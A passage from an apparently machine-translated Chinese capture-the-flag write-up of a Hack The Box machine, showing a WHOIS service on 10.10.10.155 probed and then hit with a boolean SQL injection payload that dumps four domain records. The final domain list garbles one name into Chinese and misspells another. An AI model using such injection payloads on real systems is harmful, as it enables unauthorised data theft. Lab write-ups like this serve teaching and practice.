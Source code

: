 从最初的扫描来看，WHOIS 服务器似乎是最有趣的。

```
**### WHOIS**
$ whois -h 10.10.10.155 -p 43 "scavenger.htb"
```

![](img/013b69186521d9f1a1eadf320ad25e57.png)

上述正常的 WHOIS 查询显示，它配置了`MariaDB10.1.37`。因为它使用数据库来检索数据，所以我们可以试验一下参数，看看我们是否能引起一些 SQL 错误来进一步攻击 SQLi。

```
**### WHOIS SQLi Check**
$ whois -h 10.10.10.155 -p 43 "scavenger.htb**'**"
```

![](img/08ec81020772405b7d394e8d3fb4cc65.png)

在`"scavenger.htb'"`加上单引号导致了一个 SQL 错误。使用以下基于布尔的 SQLi 有效负载，我们可以转储数据库内容:

```
**### WHOIS SQLi Attack**
$ whois -h 10.10.10.155 -p 43 "scavenger.htb') or 1=1#"% SUPERSECHOSTING WHOIS server v0.6beta@MariaDB10.1.37
% for more information on SUPERSECHOSTING, visit [http://www.supersechosting.htb](http://www.supersechosting.htb)
% This query returned 4 object
   Domain Name: **SUPERSECHOSTING.HTB**
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: [http://www.supersechosting.htb](http://www.supersechosting.htb)***...snip...***The Registry database contains ONLY .HTB domains and
--   Domain Name: **JUSTANOTHERBLOG.HTB**
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: [http://www.supersechosting.htb](http://www.supersechosting.htb)***...snip...***The Registry database contains ONLY .HTB domains and
--   Domain Name: **PWNHATS.HTB**
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: [http://www.supersechosting.htb](http://www.supersechosting.htb)***...snip...***The Registry database contains ONLY .HTB domains and
--   Domain Name: **RENTAHACKER.HTB**
   Registrar WHOIS Server: whois.supersechosting.htb
   Registrar URL: [http://www.supersechosting.htb](http://www.supersechosting.htb)***...snip...***
```

从攻击中，我们能够收集以下四(4)个额外的域:

*   **超级选择. htb**
*   **justanotherblog.htb**
*   **pwnhats.htb**
*   **renahacker.htb**
